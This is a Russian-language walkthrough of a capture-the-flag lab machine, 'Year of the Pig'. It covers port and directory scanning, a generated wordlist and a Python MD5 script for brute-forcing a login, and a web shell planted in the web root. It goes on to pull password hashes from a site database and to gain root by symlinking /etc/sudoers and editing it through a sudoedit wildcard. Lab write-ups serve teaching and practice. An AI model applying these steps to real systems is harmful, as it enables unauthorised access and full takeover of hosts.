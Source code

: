 # Year of the Pig

:white_check_mark:  [**Crunch**](#crunch)

:white_check_mark: [**Sqlite3**](#sqlite3)

:white_check_mark: [**Sudoedit**](#sudoedit)

:white_check_mark: [**Sudo_version**](#sudo_version)

___

## Enumeration
Сканируем ip командой:
```
nmap -sV -sV pig.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница pig.thm

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/1.png)

Переберем директории с помощью gobuster:
```
gobuster dir -u http://pig.thm -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
```

```
/index.html           (Status: 200) [Size: 4801]
/login.php            (Status: 200) [Size: 2790]
/admin                (Status: 301) [Size: 302] [--> http://pig.thm/admin/]
/assets               (Status: 301) [Size: 303] [--> http://pig.thm/assets/]
/css                  (Status: 301) [Size: 300] [--> http://pig.thm/css/]   
/js                   (Status: 301) [Size: 299] [--> http://pig.thm/js/]    
/api                  (Status: 301) [Size: 300] [--> http://pig.thm/api/]
```

Перейдем на страницу **pig.thm/login.php**. Перед нами строка авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/2-1.png)

Введем случайные данные и перехватим запрос.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/2.png)

Во-первых, мы можем заметить, что наш пароль преобразуется в md5.
Во-вторых, мы не можем сбрутить пароли, т.к. всегда будем получать код ответа 200.

Но отправив запрос, на странице авторизации появляется подсказка.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/3.png)

Паролем является: памятное слово или же слово, которое легко запомнить + 2 цифры + 1 символ.

Покапавшись на странице, можно найти упоминание любимого самолета **marco - Savoia S21**.

<a name="crunch"></a>

## Crunch
Сгенерируем словарь для брута:
```
crunch 9 9 -t savoia%%^ > pass

9 9 - размер пароля от 9 до 9 символов, тоесть просто 9 символов
-t - пароль по образцу
% - любая цифра
^ - любой символ
```

Получив словарь, его нужно преобразовать в md5. Сделаем это при помощи питона.
```
import hashlib

file = open('path_to_file', 'r')
file_read = file.read()


words = list(file_read.split())

for word in words:
        hash = hashlib.md5(word.encode('utf-8')).hexdigest()
        print(hash)
```

```
python brute.py > pass_md5
```

Брутим с логином marco и словарем

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/4.png)

Находим пароль, преобразуем его обратно из md5 и логинимся.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/5.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/6.png)

Находим панель для выполнения команд. Перебрав разные варианты команд я решил, что это rabbit hole и решил попробовать эти данные для ssh и они подошли.
```
ssh marco@pig.thm
```

<a name="sqlite3"></a>

## Sqlite3
Подключивсяшь в машине и покопавшись в директории сайта, я нашел базу данных **admin.db**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/7.png)

Увы, взаимодействие с базой доступно только от пользователя www-data, поэтому закинем shell в директорию **/var/www/html**.

Запускаем слушатель и открываем shell: **http://pig.thm/shell.php**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/8.png)

Теперь, когда мы зашли под пользователем www-data, можем открыть базу данных.
```
sqlite3 admin.db
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/9.png)

Получаем пароли от юзеров. Сравнив пароль от marco с тем, который мы сбрутили, можем заметить, что они сходятся, значит пароль от curtis тоже в формате md5. Закинем его в [crackstation](https://crackstation.net/) и получим результат.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/10.png)

<a name="sudoedit"></a>
<a name="sudo_version"></a>

## Privilege escalation
Логинимся под curtis.

Просмотрим права: **sudo -l**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/11.png)

Видим, что это предположительно может быть уязвимость связанная с wildcards. Проверим версию sudo:
```
sudo --version
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/12.png)

Создадим символическую ссылку:
```
ln -s /etc/sudoers /var/www/html/assets/img/config.php

Вместо */* нужно вставить 2 существующие директории
```

У нас есть права для использования sudoedit, поэтому воспользуемся этим.
```
sudoedit /var/www/html/*/*/config.php
```

В конфигурационном файле добавим права рута пользователю curtis.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/13.png)

Получаем финальный флаг.
